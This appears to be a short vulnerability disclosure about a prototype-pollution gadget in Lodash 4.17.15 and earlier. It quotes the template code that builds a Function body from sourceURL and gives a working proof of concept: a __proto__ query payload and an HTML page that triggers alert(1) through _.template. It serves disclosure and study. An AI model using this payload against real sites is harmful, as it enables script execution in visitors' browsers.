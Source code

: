 ## Lodash <= 4.17.15

URL: https://lodash.com/

### Vulnerable code fragment
https://github.com/lodash/lodash/blob/ddfd9b11a0126db2302cb70ec9973b66baec0975/lodash.js#L14804-L14872
```js
var sourceURL = '//# sourceURL=' +
  (hasOwnProperty.call(options, 'sourceURL')
    ? (options.sourceURL + '').replace(/[\r\n]/g, ' ')
    : ('lodash.templateSources[' + (++templateCounter) + ']')
  ) + '\n';

...

var result = attempt(function() {
  return Function(importsKeys, sourceURL + 'return ' + source)
    .apply(undefined, importsValues);
});
```

### PoC

```
?__proto__[sourceURL]=%E2%80%A8%E2%80%A9alert(1)
```

```html
<script/src="https://cdnjs.cloudflare.com/ajax/libs/lodash.js/4.17.15/lodash.min.js"></script>
<script>
  Object.prototype.sourceURL = '\u2028\u2029alert(1)'
</script>
<script>
  _.template('test')
</script>
```